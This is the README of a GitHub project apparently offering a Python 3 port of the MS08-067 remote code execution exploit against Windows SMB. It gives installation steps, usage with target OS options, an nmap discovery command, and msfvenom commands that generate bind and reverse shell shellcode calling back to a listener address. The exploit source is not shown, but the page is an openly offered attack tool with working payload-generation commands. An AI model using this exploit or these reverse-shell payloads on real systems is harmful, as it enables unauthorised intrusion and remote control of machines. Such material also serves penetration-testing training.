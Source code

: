# MS08_067 Exploit Python

This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/). The
return addresses and the ROP parts are ported from metasploit module
exploit/windows/smb/ms08_067_netapi

Mod in 2018 by Andy Acer:

- Added support for selecting a target port at the command line. It seemed that only 445 was
  previously supported.
- Changed library calls to correctly establish a NetBIOS session for SMB transport
- Changed shellcode handling to allow for variable length shellcode. Just cut and paste into this
  source file.

Mod in 2020 by Dev:

- Rewrite for Python3
- Better arg parsing

## Prerequisites

- [pyenv](https://github.com/pyenv/pyenv) (suggested)
- [pyenv-virtualenv](https://github.com/pyenv/pyenv-virtualenv) (suggested)

(suggested) Set up the virtual environment with pyenv

```bash
pyenv install 3.8.2
pyenv virtualenv 3.8.2 derwentx_ms08_67
```

## Installation

```bash
git clone https://github.com/derwentx/ms08_067.git derwentx_ms08_067
cd derwentx_ms08_067
pyenv local derwentx_ms08_67 # if using pyenv
python -m pip install -r requirements.txt
```

## Usage

```txt
ms08_067_2018.py [-h] [--port PORT] [HOST] [OS_TYPE] [PAYLOAD_FILE]

positional arguments:
  HOST          the target SMB host
  OS_TYPE       os type (see help)
  PAYLOAD_FILE  optional file to read payload from if not stdin

optional arguments:
  -h, --help    show this help message and exit
  --port PORT   the SMB port to target

OS Types:

    1 -> Windows XP SP0/SP1 Universal
    2 -> Windows 2000 Universal
    3 -> Windows 2003 SP0 Universal
    4 -> Windows 2003 SP1 English
    5 -> Windows XP SP3 French (NX)
    6 -> Windows XP SP3 English (NX)
    7 -> Windows XP SP3 English (AlwaysOn NX)

NMAP Tips:

    nmap has a good OS discovery script that pairs well with this exploit:
    $ nmap -p 139,445 --script-args=unsafe=1 --script /usr/share/nmap/scripts/smb-os-discovery

Generating Shellcode:

    $ msfvenom -p windows/shell_bind_tcp RHOST=10.11.1.229 LPORT=443 EXITFUNC=thread -b
      "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f raw -a x86 --platform windows > shellcode
    $ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=443 EXITFUNC=thread -b
      "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f raw -a x86 --platform windows > shellcode
    $ msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.157 LPORT=62000 EXITFUNC=thread -b
      "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f raw -a x86 --platform windows > shellcode
```
